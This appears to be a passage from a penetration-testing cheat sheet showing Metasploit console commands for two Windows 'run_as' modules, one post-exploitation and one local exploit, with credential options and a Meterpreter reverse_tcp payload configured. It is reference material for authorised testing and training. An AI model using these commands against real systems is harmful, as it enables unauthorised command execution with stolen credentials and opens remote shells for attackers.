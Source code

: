 - **MSF Windows Manage Run Command As User Post Module**

```
msf > use post/windows/manage/run_as

msf post(windows/manage/run_as) > options

Module options (post/windows/manage/run_as):  
  
  Name      Current Setting  Required  Description  
  ----      ---------------  --------  -----------  
  CMD                        yes       Command to execute  
  CMDOUT    false            yes       Retrieve command output  
  DOMAIN                     yes       Domain to login with  
  PASSWORD                   yes       Password to login with  
  SESSION                    yes       The session to run this module on  
  USER                       yes       Username to login with  
  
  
View the full module info with the info, or info -d command.

msf post(windows/manage/run_as) > set cmdout <true | false>

msf post(windows/manage/run_as) > set cmd <commands> [arguments]

msf post(windows/manage/run_as) > set user <username>

msf post(windows/manage/run_as) > set password <password>

msf post(windows/manage/run_as) > set domain <domain_name>

msf post(windows/manage/run_as) > set session <session_id>

msf post(windows/manage/run_as) > run
```

- **MSF Windows Run Command As User Exploit Module**

```
msf > use exploit/windows/local/run_as

msf exploit(windows/local/run_as) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/run_as) > options

Module options (exploit/windows/local/run_as):

  Name                Current Setting  Required  Description
  ----                ---------------  --------  -----------
  APPLICATION_NAME                     no        Application to be executed (lpApplicationName)
  COMMAND_LINE                         no        Command line to execute (lpCommandLine)
  DOMAIN                               no        Domain to login with
  PASSWORD                             yes       Password to login with
  SESSION                              yes       The session to run this module on
  USER                                 yes       Username to login with
  USE_CUSTOM_COMMAND  false            yes       Specify custom APPLICATION_NAME and COMMAND_LINE


Payload options (windows/x64/meterpreter/reverse_tcp):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  LHOST                      yes       The listen address (an interface may be specified)
  LPORT     4444             yes       The listen port
```